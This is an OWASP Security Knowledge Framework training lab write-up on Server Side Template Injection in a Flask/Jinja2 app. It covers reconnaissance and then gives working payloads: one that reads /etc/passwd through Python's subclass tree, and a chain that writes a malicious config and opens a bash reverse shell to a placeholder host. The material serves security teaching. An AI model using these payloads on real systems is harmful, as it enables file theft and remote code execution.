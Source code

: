 # KBID 267 - SSTI

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:ssti
```

```
$ sudo docker run -ti -p 127.0.19.1:9000:9000 blabla1337/owasp-skf-lab:ssti
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to ContraHack!](<.gitbook/assets/screen-shot-2019-03-04-at-21.33.32 (1).png>)

## Reconnaissance

#### Step 1

As with all reconnaissance we first have to determine the type of application that is running and the programming language it was written in. This could easily be achieved by setting up an intercepting proxy and study the requests and responses made by the application to the web sever.

Also, trying to trigger error messages on the application can also give away a lot of information about the application under test.

In the screenshot below in the response of the we find the python version that is running, accompanied with the server "Werkzeug". This is a clear indicator the web application might be running python flask, and python flask typically runs with the templating engine, jinja2.

![](.gitbook/assets/ssti1.png)

#### Step2

Now that we have determined the type of application that is running let's try to see if any user supplied input is accepted by the application. The input from the URL is being processed directly in the application and outputted in the HTML. So now we have control of whatever is being reflected on the page. How do we now determine if the application might be susceptible to Server Side Template Injection?

First we need to do some investigation on how the syntax works, so we dive into the docs!

{% hint style="info" %}
[http://jinja.pocoo.org/docs/2.10/templates/](http://jinja.pocoo.org/docs/2.10/templates/)
{% endhint %}

{% ... %} for Statements {{ ... }} for Expressions to print to the template output {# ... #} for Comments not included in the template output # ... ## for Line Statements \`\`\`

Now, we want to use expressions to print to the template output to see if our payloads are interpreted and executed on the server-side by the templating engine. The most ideal way to do so is to inject mathematical statements.

As found in the docs:

```
{{ 1 + 1 }} is 2.
```

Let's see what happens of we inject the expression with the operator described above!

![](.gitbook/assets/screen-shot-2019-01-10-at-13.13.36.png)

## Exploitation

A nice website with write-ups about different type of payloads on template engines is found here:\
[\
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

In python `__mro__` or `mro()` allows us to go back up the tree of inherited objects in the current Python environment, and `__subclasses__` lets us come back down. Read the [docs](https://docs.python.org/3/library/stdtypes.html?highlight=subclasses#class.\_\_mro\_\_) for more. Basically, you can crawl up the inheritance tree of the known objects using `mro`, thus accessing _every class loaded_ in the current python environment

Now, lets find some usefull injections for Jinja2.\
In order to build our exploit this here already looks pretty promising:

```python
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

After injecting the payload we now have a list of all the different classes loaded in our target application. Let's see if we can use it to read some information from the file system

![](.gitbook/assets/screen-shot-2019-01-10-at-17.59.05.png)

On position 40 whilst iterating over the different loaded classes we find the "read" function. Let's use this function to read the "/etc/passwd" file from the filesystem.

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

![](.gitbook/assets/screen-shot-2019-01-10-at-17.59.36.png)

As mentioned before this attack can ultimately be used also to gain remote code execution on the target application. In order to do so we first would need to set up a listener and than inject the following payloads

```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config
{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to evil host
```

## Additional sources

[https://portswigger.net/blog/server-side-template-injection](https://portswigger.net/blog/server-side-template-injection)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections#dump-all-used-classes](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections#dump-all-used-classes)

[https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)
